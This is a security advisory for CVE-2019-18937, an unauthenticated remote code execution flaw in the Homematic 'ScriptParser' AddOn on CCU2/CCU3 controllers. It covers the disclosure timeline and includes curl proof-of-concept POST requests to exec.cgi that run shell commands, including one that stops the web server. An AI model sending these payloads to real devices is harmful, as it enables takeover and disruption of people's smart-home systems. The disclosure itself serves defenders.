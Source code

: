 ```yaml
---
layout: post
title:  "CVE-2019-18937 eQ-3 Homematic AddOn 'ScriptParser' version 1.8 and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of /addons/script/exec.cgi script, which executes TCL script content from HTTP POST request"
date:   2020-11-05 21:15:00 MET
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-18937
- Author: psytester
- Title: eQ-3 Homematic AddOn 'ScriptParser' version 1.8 and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of /addons/script/exec.cgi script, which executes TCL script content from HTTP POST request
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: 05.11.2020
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'ScriptParser' AddOn contacted: 13.08.2019 as [issue #4](https://github.com/litti/scriptparser/issues/4)
  - Developer of 'ScriptParser' AddOn confirmation: N.A.
  - 'ScriptParser' AddOn patch: [Version 1.9](https://github.com/homematic-community/scriptparser/releases/tag/1.9) released on 03.11.2020
  - Affected 'ScriptParser' AddOn version: 1.8 and prior

# Background

From [Github 'ScriptParser' AddOn project page](https://github.com/litti/scriptparser) it's almost clear that there is a known security issue, but a lot of people have installed the AddOn which opens the vulnerability:<br>
Deutsch:
>Da immer wieder nach einer besseren Möglichkeit gesucht wird, Scripte zu editieren, habe ich den alten Scriptparser mal in ein Installationspaket gepackt. Einfach als Zusatzsoftware installieren/deinstallieren. Aufruf über den Browser mit http://IPAdressederCCU/addons/script
>Achtung: Der Parser ist nicht passwortgesichert und arbeitet auch nicht auf Session-Basis! Mit anderen Worten, wer Zugriff auf den Port 80 der CCU hat, kann den aufrufen und Skripte ausführen!

English:
>Since there is always the search for a better way to edit scripts, I packed the old script parser into an installation package. Just install/uninstall it as additional software. Call via the browser with http://IPAdressederCCU/addons/script
>Attention: The parser is not password protected and does not work on session basis! In other words, if you have access to port 80 of the CCU, you can call it and execute scripts!

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'ScriptParser' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented internal system.Exec() call:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'
```

2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
```

# CVE

[CVE-2019-18937](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18937)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
